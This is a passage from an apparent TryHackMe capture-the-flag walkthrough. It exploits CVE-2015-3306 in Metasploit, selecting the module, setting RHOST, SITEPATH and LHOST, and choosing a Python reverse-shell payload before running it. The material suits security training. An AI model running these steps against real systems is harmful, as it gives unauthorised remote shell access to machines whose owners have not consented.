 Next, we search for our found vulnerability using the command

`earch CVE-2015-3306`

There is only one result, so we will use that! The command is very simple

`use 0`

You will notice that the module was added to the prompt in red characters.




![alt_text](images/image13.png "image_tooltip")


We still need to get some things ready before we can run our exploit, so we type

`show options`

Here we need to set the `RHOST` (remote host, which is our target machine's IP).

Then we need to set the `SITEPATH` to /var/www/html

We still haven't set a payload for our exploit, so we will do that next!

`show payloads`


![alt_text](images/image14.png "image_tooltip")


It will give you a list of possible payloads. I like the python reverse shells so I will go with that one


![alt_text](images/image15.png "image_tooltip")


`set payload /cmd/unix/reverse_python`

Here we also need to set some things before running the exploit, so we "show options" again and scroll down until we see options

for the payload. We set the LHOST ( local host, which is us here, our computer or TryHackMe attack box if you are using it.

Remember that the IP you want, if you are using your own computer, is the one displayed on top of the TryhackMe page inside a green box! If you are

using the attack box, then the IP is shown in the prompt root@IP )

You can leave the port as 4444 which is the default (not a good idea for a real life engagement since port 4444 is the default in so many exploitation tools)

All seem all good, we can run our exploit either by typing

`run`

OR

`exploit`

![alt_text](images/image16.png "image_tooltip")
